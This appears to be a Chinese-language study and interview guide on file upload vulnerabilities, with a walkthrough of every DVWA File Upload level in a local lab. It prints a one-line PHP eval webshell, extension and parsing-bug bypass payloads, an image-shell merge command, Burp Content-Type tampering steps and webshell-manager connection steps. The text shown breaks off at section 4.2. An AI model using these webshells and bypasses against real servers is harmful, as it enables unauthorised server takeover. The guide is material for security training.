# 文件上传漏洞完全指南（面试版）

> 📅 整理时间：2026-07-16  
> 🎯 目标：掌握文件上传绕过方法、DVWA全级别通关、GetShell原理  
> 🏠 环境：DVWA + phpStudy + Win7虚拟机  
> 💼 适用：实习面试 / 初级渗透测试工程师

---

## 目录

- [一、文件上传基础概念](#一文件上传基础概念)
- [二、绕过方法大全](#二绕过方法大全)
- [三、DVWA实战：File Upload全级别](#三dvwa实战file-upload全级别)
- [四、GetShell与权限维持](#四getshell与权限维持)
- [五、文件上传防御方法](#五文件上传防御方法)
- [六、面试高频问题](#六面试高频问题)

---

## 一、文件上传基础概念

### 1.1 什么是文件上传漏洞

**定义：** Web应用允许用户上传文件，但未对文件类型、内容、路径做严格校验，导致攻击者上传恶意脚本文件（如PHP木马），获取服务器控制权限。

### 1.2 攻击流程

```
攻击者上传 shell.php（木马文件）
    ↓
服务器保存到上传目录
    ↓
攻击者访问 http://target/uploads/shell.php
    ↓
服务器执行PHP代码
    ↓
获取WebShell（服务器控制权限）
```

### 1.3 一句话木马

```php
<?php @eval($_POST['cmd']); ?>
```

**使用方式：** 用中国蚁剑/菜刀连接，密码是 `cmd`。

---

## 二、绕过方法大全

### 2.1 前端绕过（JS校验）

**原理：** 只在浏览器端用JS检查文件后缀名。

**绕过：**
1. 禁用浏览器JS
2. 先改后缀为 `.jpg` 通过前端校验，再用BurpSuite拦截改回 `.php`
3. 直接修改前端HTML代码

### 2.2 MIME类型绕过

**原理：** 后端检查 `Content-Type` 头，如只接受 `image/jpeg`。

**绕过：** BurpSuite拦截，把 `Content-Type: application/x-php` 改成 `image/jpeg`。

### 2.3 后缀名绕过

| 方法 | 例子 | 适用服务器 |
|------|------|---------|
| 大小写 | `shell.PhP` | Windows |
| 双写 | `shell.pphphp` | 只替换一次的后端 |
| 特殊后缀 | `shell.php3`, `shell.phtml` | Apache配置不当 |
| 点空格点 | `shell.php. .` | Windows/某些解析逻辑 |
| ::$DATA | `shell.php::$DATA` | Windows NTFS |
| .htaccess | 上传.htaccess让jpg当php执行 | Apache |

### 2.4 图片马（内容检测绕过）

**制作命令（Windows CMD）：**
```cmd
copy /b pic.jpg + shell.php shell.jpg
```

**原理：** 文件头是图片格式（骗过 `getimagesize()`），后面拼接PHP代码。

**利用方式：** 配合文件包含漏洞（File Inclusion）或解析漏洞执行。

### 2.5 解析漏洞

| 服务器 | 漏洞 | Payload |
|--------|------|---------|
| **Apache** | 多后缀解析 | `shell.php.jpg` 从右往左解析，遇到不认识的后缀继续向左，最终解析php |
| **Nginx** | 空字节截断（旧版本） | `shell.jpg%00.php` |
| **Nginx** | 路径解析漏洞 | `/shell.jpg/.php` 把jpg当php解析 |
| **IIS 6.0** | 目录解析 | `/upload/1.asp/1.jpg` 把jpg当asp解析 |
| **IIS 6.0** | 分号截断 | `shell.asp;.jpg` 解析为asp |

---

## 三、DVWA实战：File Upload全级别

### 3.1 Low级别

**安全设置：** DVWA Security → **Low**

**防御：** 无防御，直接上传。

**步骤：**
1. 创建 `shell.php`：
   ```php
   <?php @eval($_POST['cmd']); ?>
   ```
2. DVWA → File Upload → 选择 `shell.php` → Upload
3. 复制上传后的路径，如：`../../hackable/uploads/shell.php`
4. 访问：`http://192.168.133.100:8002/hackable/uploads/shell.php`
5. 用蚁剑连接，密码 `cmd`

> 
> *说明：直接上传shell.php成功，显示上传路径*

> 
> *说明：中国蚁剑成功连接WebShell，获取服务器文件管理权限*

**后端代码：**
```php
<?php
$target_path = "../../hackable/uploads/" . basename($_FILES['uploaded']['name']);
move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path);
echo "上传成功: " . $target_path;
?>
```

---

### 3.2 Medium级别

**安全设置：** DVWA Security → **Medium**

**新增防御：** 检查文件类型（MIME/Content-Type），只接受 `image/jpeg` 和 `image/png`。

**绕过方法：** BurpSuite拦截，修改 `Content-Type`。

**步骤：**
1. 选择 `shell.php`，点 Upload
2. BurpSuite拦截请求
3. 找到 `Content-Type: application/octet-stream`
4. 改成 `Content-Type:image/jpeg `
5. 放行，上传成功

> 
>
> *说明：直接上传失败，显示“Your image was not uploaded. We can only accept JPEG or PNG images.”*
>
> 
>
> *说明：BurpSuite拦截修改Content-Type为image/jpeg，成功上传php文件*

**后端代码：**
```php
<?php
if ($_FILES['uploaded']['type'] == "image/jpeg" || $_FILES['uploaded']['type'] == "image/png") {
    move_uploaded_file($_FILES['uploaded']['tmp_name'], $target_path);
}
?>
```

---

### 3.3 High级别

**安全设置：** DVWA Security → **High**

**新增防御：**
1. 检查文件后缀名（白名单：jpg/jpeg/png）
2. 检查文件内容（`getimagesize()` 验证图片头）
3. 重命名文件

**绕过方法：** 图片马 + 文件包含漏洞

**步骤：**
1. 制作图片马：
   ```cmd
   copy /b pic.jpg + shell.php shell.jpg
   ```

2. 上传 `shell.jpg`（通过内容检测）

3. 配合 DVWA File Inclusion 漏洞包含该图片

4. 或利用解析漏洞让服务器把jpg当php执行

> 
>
> 
>
> *说明：上传图片马成功，配合文件包含漏洞执行PHP代码*

> 
> *说明：CMD命令制作图片马，copy /b 合并图片和PHP木马*

**后端代码：**
```php
<?php
$uploaded_name = $_FILES['uploaded']['name'];
$uploaded_ext = substr($uploaded_name, strrpos($uploaded_name, '.') + 1);
$uploaded_size = $_FILES['uploaded']['size'];
$uploaded_type = $_FILES['uploaded']['type'];

if (($uploaded_ext == "jpg" || $uploaded_ext == "JPG" || $uploaded_ext == "jpeg" || $uploaded_ext == "JPEG") 
    && ($uploaded_size < 100000) 
    && getimagesize($uploaded_tmp)) {
    move_uploaded_file($uploaded_tmp, $target_path);
}
?>
```

---

### 3.4 Impossible级别

**安全设置：** DVWA Security → **Impossible**

**防御机制：**
1. 白名单后缀名（jpg/png）
2. 文件内容重编码（用GD库重新生成图片）
3. 随机文件名
4. 上传目录无执行权限

**攻击结果：** ❌ 无法绕过，PHP代码被清除。

> 
> *说明：Impossible级别对图片进行重编码，嵌入的PHP代码被清除*

**后端代码：**
```php
<?php
// 使用GD库重新生成图片，清除所有嵌入代码
$src = imagecreatefromjpeg($uploaded_tmp);
imagejpeg($src, $target_path, 100);
imagedestroy($src);
?>
```

---

## 四、GetShell与权限维持

### 4.1 中国蚁剑连接

1. 右键 → 添加数据
2. URL：`http://target/hackable/uploads/shell.php`
3. 连接密码：`cmd`
4. 编码器：default
5. 测试连接 → 添加

### 4.2 常见WebShell管理工具

